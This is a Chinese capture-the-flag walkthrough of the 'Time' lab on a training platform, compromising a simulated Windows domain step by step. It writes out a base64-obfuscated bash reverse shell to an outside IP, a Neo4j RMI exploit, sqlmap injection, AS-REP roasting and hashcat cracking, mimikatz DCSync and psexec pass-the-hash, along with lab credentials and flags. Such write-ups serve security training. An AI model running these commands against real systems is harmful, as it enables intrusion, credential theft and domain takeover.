 # 春秋云镜 & Time

## 靶标介绍
`Time`是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有`4`个`flag`，分布于不同的靶机。

## 攻击流程

利用`Nmap`对给出的`IP`进行扫描，发现存在`Neo4j`，尝试利用`Neo4j`未授权进行攻击，[CVE-2021-34371](https://github.com/zwjjustdoit/CVE-2021-34371.jar)。

![](./images/1.png)

反弹`Shell`进一步利用。

```bash
java -jar rhino_gadget.jar rmi://39.99.241.178:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuNTUuNi4xMjEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" 
```

![](./images/2.png)

在`/home/neo4j`目录下获取到`flag01`：`flag{18439d68-f949-42bb-b9e2-c3eef9676b25}`。

![](./images/3.png)

查一下网段信息，`wget`下载一下`fscan`对内网信息进行搜集。

![](./images/4.png)

```
start ping
(icmp) Target 172.22.6.12     is alive
(icmp) Target 172.22.6.25     is alive
(icmp) Target 172.22.6.38     is alive
(icmp) Target 172.22.6.36     is alive
[*] Icmp alive hosts len is: 4
172.22.6.38:22 open
172.22.6.12:88 open
172.22.6.38:80 open
172.22.6.25:445 open
172.22.6.12:445 open
172.22.6.25:139 open
172.22.6.12:139 open
172.22.6.25:135 open
172.22.6.12:135 open
172.22.6.36:7687 open
172.22.6.36:22 open
[*] alive ports len is: 11
start vulscan
[*] NetInfo:
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetInfo:
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] 172.22.6.12  (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.6.38        code:200 len:1531   title:后台登录
[*] NetBios: 172.22.6.25     XIAORANG\WIN2019               
[*] NetBios: 172.22.6.12     [+]DC DC-PROGAME.xiaorang.lab       Windows Server 2016 Datacenter 14393 
[*] WebTitle: https://172.22.6.36:7687  code:400 len:50     title:None
```

同样把`Stowaway`下载到目标主机上，开`Socks`代理，把内网代理出来进一步探测。

先对后台登录进行测试，发现存在`username`字段存在`SQL`注入漏洞，直接利用`Sqlmap`把数据全`dump`出来。

```sql
available databases [5]:
[*] information_schema
[*] mysql
[*] oa_db
[*] performance_schema
[*] sys
```

```sql
Database: oa_db
[3 tables]
+------------+
| oa_admin   |
| oa_f1Agggg |
| oa_users   |
+------------+
```

在表`oa_f1Agggg`中获取到`flag02`：`flag{b142f5ce-d9b8-4b73-9012-ad75175ba029}`

![](./images/5.png)

在表`oa_users`中存在`500`个邮箱，将其全部`dump`出来后，结合`flag01`的提示`Do you know the authentication process of Kerberos?`，先对域内用户进行枚举尝试，最终跑出来`74`个有效用户名。

```bash
kerbrute userenum --dc 172.22.6.12 -d xiaorang.lab ~/Desktop/username.txt -t 10
```

![](./images/6.png)

在爆破域用户的时候，还获取了两组凭据，根据信息推测应该是设置了选项`Do not require Kerberos preauthentication`，可以利用`AS-REP Roasting`进行攻击。

```bash
GetNPUsers.py -dc-ip 172.22.6.12 xiaorang.lab/ -usersfile username.txt
```

```
$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:1756e89a42df4433cdaaed2951369b82$facac115a0d62bd34ebab877d7c4f8079363aed5894d176d80dfba48691993fa18eb90af9b2b69e146f94508e01ecc0e9a3886956d84c21e390b51055d4db82b434a1f84c1d79c53e976e8d8ff8da8ae1cd229c758464f94995ba15f8fd237ab7d0e3c4b12d312e4ae4c4bd09b18f6a8cc5bd43e6afedea796e73af9969fb5fc14dadd654030c5ea53b9515a0dfd63edb7fbe2eafac9ee1f57df4d60daf2588844aebf63c25afdb2944f2a3fb857bb0c641347544d116f2a4f1127630006f15ed98b0bdadb812a8036d7e47d3883e5a192a543d4ec5a5fa0a60e874f827832de3a816ad5a3d2126396f1abe0

$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:978a3953a5918e506472d8b7f939a82f$ab62517fb779a42b756289c35c64afa94f28fe15effa9f17e45352e36d93772a08ef61314d1c77b1145c421af16a6c12747826a57cb192bba3ae2d954c14c0aa764dd53513ccb737a6504fc8b6d5162eeb253e575a5a0bd8a7abe4462295f2198e06cc7f1d714920d160a4dcb107394ddd7931f99f1fdc7abaeb33ffc2a78ff81d7ede1d79bdae97aeaf39655c26845d76890e508695e914eb0ae2210785a9690db00c4d71bce5da0dbeb492fed33d32ea2e12348080e13cace2ee6eea5e25c867fcb71a045bdfd18e49b4058245ee86fefa58433969229dd6cb3c8daac0294a4a7c1f81f9fcbcce51cc4490
```

![](./images/9.png)

利用`hashcat`爆破一下凭据，得到两组登录凭据用户名和密码。

```bash
hashcat -m 18200 --force -a 0 '$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:b6c410706b5e96c693b2fc61ee1064c3$2dc9fbee784e7997333f30c6bc4298ab5752ba94be7022e807af418c11359fd92597e253752f4e61d2d18a83f19b5c9df4761e485853a3d879bcf7a270d6f846683b811a80dda3809528190d7f058a24996aff13094ff9b32c0e2698f6d639b4d237a06d13c309ce7ab428656b79e582609240b01fb5cd47c91573f80f846dc483a113a86977486cecce78c03860050a81ee19921d3500f36ff39fa77edd9d5614cf4b9087d3e42caef68313d1bb0c4f6bc5392943557b584521b305f61e418eb0f6eb3bf339404892da55134cb4bf828ac318fe00d68d1778b7c82caf03b65f1938e54ed3fa51b63cdb2994' rockyou.txt

hashcat -m 18200 --force -a 0 '$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:971802b84ce99050ad3c5f49d11fd0b7$6c1be075c3cf2a7695529de2ebbf39c5ec7e5326c9d891dac2107b239892f76befe52c860e4e1e2ff6537a5765a6bcb6b8baca792d60765ac0bbe1b3c5e59f3ec51b7426636a437d5df12130eb68d9b17ef431455415671c7331a17ce823e28cc411677bed341d3fceefc3451b8b232ea6039661625a5c793e30c4d149b2ed9d2926e9d825b3828744ebce69e47746994c9a749ceeb76c560a1840bc74d2b9f301bb5b870c680591516354460dab2238e7827900ed80320dd3a6f46874b1bc8a3a68aea7bd11d0683ec94103f59d9511691090928e98d0d8978f511e71fd9db0067fa0d450c120f3726918d7' rockyou.txt
```

```
wenshao@xiaorang.lab/hellokitty
zhangxin@xiaorang.lab/strawberry
```

![](./images/7.png)

![](./images/8.png)

利用得到的两组凭证进行`RDP`连接，利用`wenshao/hellokitty`成功登录`XIAORANG\WIN2019 `，利用`SharpHound`搜集一下域内信息，查看`Shortest Paths to Unconstrained Delegation Systems`，发现域用户`YUXUAN`具有指向`Administrator@xiaorang.lab`的`HasSIDHistory`（说明该用户拥有域管理员的权限），而且在`WIN2019.XIAORANG.LAB`主机上有`YUXAUN`的`Session`。

![](./images/10.png)

查看会话，发现确实存在域用户`YUXUAN`的会话。

```bash
query user
query session
```

![](./images/11.png)

尝试抓取一下自动登录的密码，得到`yuxuan/Yuxuan7QbrgZ3L`，这里也可以通过利用工具`WinPEARS`来获取。

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

![](./images/12.png)

接着利用域用户`YUXUAN`具有的`HasSIDHistory`特性，切换到`yuxuan`登录远程桌面，直接`PTH`获取到域控机器`\\172.22.6.12\c$\Users\Administrator\flag\`下的`flag04`：`flag{2e2ebd95-ce2e-4704-9043-d859644e1c13}`。

![](./images/13.png)

上传`mimikatz`来导出域内所有用户的`Hash`，得到域用户`Administrator`的`Hash`：`04d93ffd6f5f6e4490e0de23f240a5e9`。

```bash
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

![](./images/14.png)

直接横向到`WIN2019`来获取`flag03`：`flag{0991a26e-aa0d-4f26-9dc7-2bb5a10b2d1e}`。

```bash
python3 psexec.py -hashes  :04d93ffd6f5f6e4490e0de23f240a5e9 xiaorang.lab/administrator@172.22.6.25
```

![](./images/15.png)
